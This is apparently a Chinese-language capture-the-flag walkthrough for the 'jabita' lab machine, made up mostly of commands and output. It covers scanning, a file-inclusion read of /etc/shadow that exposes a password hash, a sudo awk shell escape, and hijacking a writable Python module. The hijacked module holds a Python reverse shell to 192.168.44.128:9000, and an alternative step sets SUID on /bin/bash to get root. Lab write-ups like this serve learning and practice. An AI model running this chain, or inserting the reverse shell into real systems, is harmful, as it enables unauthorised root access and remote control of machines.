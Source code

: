 
|   |   |   |
|---|---|---|
|jabita|easy|文件包含利用、shadow爆破、sudo-awk 提权、python库劫持提权、python反弹shell|

# 主机发现
```C
┌──(kali㉿kali)-[~]
└─$ sudo netdiscover -i eth0 -r 192.168.44.139/24
```

# 服务探测
```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A -T 4 -p- 192.168.44.147 
```
22,  80

# 目录扫描
```c
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.44.147 -x php,html.txt.png -e
```

```c
http://192.168.44.147/building   
在这个页面随便点个home
发现这个页面可能存在文件包含http://192.168.44.147/building/index.php?page=home.php
初次尝试得到结果
http://192.168.44.147/building/index.php?page=/etc/shadow


jaba:$y$j9T$pWlo6WbJDbnYz6qZlM87d.$CGQnSEL8aHLlBY/4Il6jFieCPzj7wk54P8K4j/xhi/1:19240:0:99999:7::: 
```
# john爆破




# 提权

```c
jack@jabita:~$ sudo -l
    (jaba : jaba) NOPASSWD: /usr/bin/awk 
```

然后去这个网站搜索相关命令getshell，，，awk
[GTFOBins](https://gtfobins.github.io/)

```c
sudo awk 'BEGIN {system("/bin/sh")}'
```

```c
jack@jabita:~$ sudo -u jaba  /usr/bin/awk 'BEGIN {system("/bin/sh")}'
$ id
uid=1002(jaba) gid=1002(jaba) groups=1002(jaba)

$ script /dev/null -c bash
jaba@jabita:/home/jack$ sudo -l
    (root) NOPASSWD: /usr/bin/python3 /usr/bin/clean.py
```
查看这个文件为root 权限，该脚本导入了wild 模块，执行后调用first()方法，输出一个hello。
我们搜索该模块，查看模块内容如下
```c
jaba@jabita:/home/jack$ cat /usr/bin/clean.py 
import wild

wild.first()
jaba@jabita:/home/jack$ ls -all /usr/bin/clean.py 
-rw-r--r-- 1 root root 26 Sep  5  2022 /usr/bin/clean.py
jaba@jabita:/home/jack$ /usr/bin/python3 /usr/bin/clean.py
Hello
jaba@jabita:/home/jack$ find / -type f -name "wild.py" 2>/dev/null
/usr/lib/python3.10/wild.py
jaba@jabita:/home/jack$ cat /usr/lib/python3.10/wild.py
def first():
        print("Hello")
jaba@jabita:/home/jack$ ls -all /usr/lib/python3.10/wild.py
-rw-r--rw- 1 root root 29 Sep  5  2022 /usr/lib/python3.10/wild.py
```
## python库劫持
我们对改文件具有修改的权限，因此可以尝试python库劫持进行提取
那么接下来我们可以使用python反弹一个shell,代码如下
```c
import os
def first():
	os.system("python3 -c \"import       os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.44.128',9000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);\"")
```

```c
jaba@jabita:/home/jack$ sudo -u root /usr/bin/python3 /usr/bin/clean.py
```

实战中，如果机器不出网，我们可以修改该脚本的内容，让它可以使用 SUID 执行 bash。或者直接创建一个root权限的账号。

```c
import os
def first():	
	os.system("chmod u+s /bin/bash")
```

```c
find / -perm -u=s -type f 2>/dev/null


jaba@jabita:/home/jack$ bash -p
bash-5.1# whoami
root
```

```
bash-5.1# cat user.txt 
2e0942f09699435811c1be613cbc7a39
bash-5.1# cat root.txt 
f4bb4cce1d4ed06fc77ad84ccf70d3fe
```
